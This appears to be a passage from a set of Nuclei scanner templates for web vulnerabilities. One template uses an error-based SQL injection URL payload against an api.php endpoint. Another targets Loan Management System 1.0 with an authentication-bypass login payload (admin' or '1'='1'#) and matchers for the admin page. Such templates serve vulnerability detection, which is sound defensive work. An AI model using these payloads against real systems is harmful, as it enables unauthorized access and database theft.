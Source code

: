 ### URL

- {{BaseURL}}/api.php?c=project&f=index&token=1234&id=news&sort=1 and extractvalue(1,concat(0x7e,md5({{num}}))) --+

### Matchers

**Type - word**

- part - body
- words
  1. {{md5({{num}})}}

---

# Loan Management System 1.0 - SQL Injection

## Description

- Loan Management System 1.0 contains a SQL injection vulnerability via the username parameter. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - auth-bypass,cms,packetstorm,edb,loancms,sqli

## Requests

### Step - 1

```
POST /ajax.php?action=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin'+or+'1'%3D'1'%23&password=nuclei

```

### Step - 2

```
GET /index.php?page=home HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. window.start_load
  2. Welcome back Admin
  3. Loan Management System
- condition - and
